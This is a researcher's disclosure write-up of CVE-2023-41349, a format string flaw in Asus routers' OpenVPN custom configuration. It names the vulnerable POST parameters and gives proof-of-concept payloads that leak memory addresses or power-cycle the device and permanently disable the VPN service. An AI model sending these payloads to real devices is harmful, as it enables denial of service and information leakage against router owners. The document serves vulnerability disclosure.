



## Asus, back at it again with the format strings - CVE-2023-41349

Last year I came across some weird format string issues in Asus's "Advanced OpenVPN Configuration" functionality. I sent the bugs to Asus for a fix 2023/05/15, around the same time I submitted a few other [exploitable DoS conditions](../asus-dos/). I never heard back about the CVE assignment and remembered today, nearing a year later. 

Anyway, here are the details-- these ones are pretty funny because they not only DoS'd the VPN service, they straight up power cycled the device LOL. Fixing it after the DoS required clearing the values from nvram, otherwise the VPN service was *permanently down* and unable to start, ha!

### Information Leakage / DoS via Dangerous Format String Usage

This might've actually been exploitable, but due to the power cycle of the device it was brutally difficult to track down, so I got lazy. Here are the details of the disclosures. It appeared possible to write memory to arbitrary locations with the `%n` parameter, but the effort required for an authenticated exploit that *resulted in a full reboot everytime it failed* was too much for me to care.

#### Description:
Dangerous format string usage was identified within POST requests made to `/start_apply.htm` for configuration of the OpenVPN server. It is possible to include format specifiers within the `vpn_server_custom`, `vpn_server_cipher`, and `vpn_server_digest` POST parameters, which will be parsed and written to the `/etc/openvpn/server1/config.ovpn` and `client.ovpn` files. 

Using this vulnerability it is possible to leak memory addresses, write to memory by leveraging the `%n` format specifier and/or crash the device, causing a reboot and a permanent DoS for the VPN service / crash `rc`, which will be unable to recover. Inclusion of format specifiers such as `%s`, `%d`, `%n` in the custom configuration will result in a power cycle / crash and require a manual reset of VPN server nvram in order to restart the service, as the `vpn_server<ID>_custom` nvram values will contain the malicious string:

```
admin@RT-AX88U-C100:/tmp/home/root# nvram dump | grep vpn_
...
vpn_server_ccd_val=<1>%p>10.10.10.10>255.255.255.255>0
vpn_server_custom=push "AAAA%p%p%p%p"
vpn_server1_ccd_val=<1>%p>10.10.10.10>255.255.255.255>0
vpn_server1_custom=push "AAAA%s%p%p%p"
```

#### PoC 1 - Memory / Info Leak:

Inclusion of the following values as the custom configuration will result in leakage of memory addresses within the config.ovpn file:

`push "AAAA%p%p%p%p"`

#### Request:


#### Result:
```
admin@RT-AX88U-C100:/tmp/home/root# cat /etc/openvpn/server1/config.ovpn
# Automatically generated configuration
...
# Custom Configuration
push "AAAA0xc3f8d5000xffe127200xffe127240xffe12728"
```

#### PoC 2 - Power Cycle / VPN DoS
The following payload, sent within the vulnerable parameters, will power cycle the device and crash the vpn service until the value is removed from nvram:

`"AAAA%s%p%p%p"`

`nvram` contents:
```
admin@RT-AX88U-C100:/tmp/home/root# nvram dump | grep vpn | grep %s
size: 76294 bytes (54778 left)
vpn_server_custom=push "AAAA%s%p%p%p"
vpn_server1_custom=push "AAAA%s%p%p%p"
```

#### Request:


#### Result, lol, full reboot:


### Final thoughts

Had I written this near a year ago when I found it, I probably would've included more about tracking it down, and odd behaviors. Alas, this one's short and sweet.